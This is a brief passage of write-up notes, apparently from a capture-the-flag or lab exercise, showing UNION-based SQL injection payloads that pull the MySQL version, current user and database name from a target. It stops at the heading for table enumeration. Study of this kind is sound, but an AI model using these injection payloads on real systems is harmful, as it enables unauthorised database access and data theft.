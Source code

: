 
### Get database and user info

> `@@version`, `database()`, `user()`

`@@version` worked, assume it's mysql

```sql
' union select 1,2,3,@@version #
```

![](/assets/obsidian/a6bfcde6e0e96ce75326eab9b302a07a.png)

User is `main_admin`

```sql
' union select 1,2,3,user() #
```

![](/assets/obsidian/8fa21b7ed8188e8b483e7f4ed1e4ee8f.png)

Current database is `main`

```sql
' union select 1,2,3,database() #
```

![](/assets/obsidian/05131c0f2aa5d5fa071eadf18237ea3b.png)

### Get tables from current database
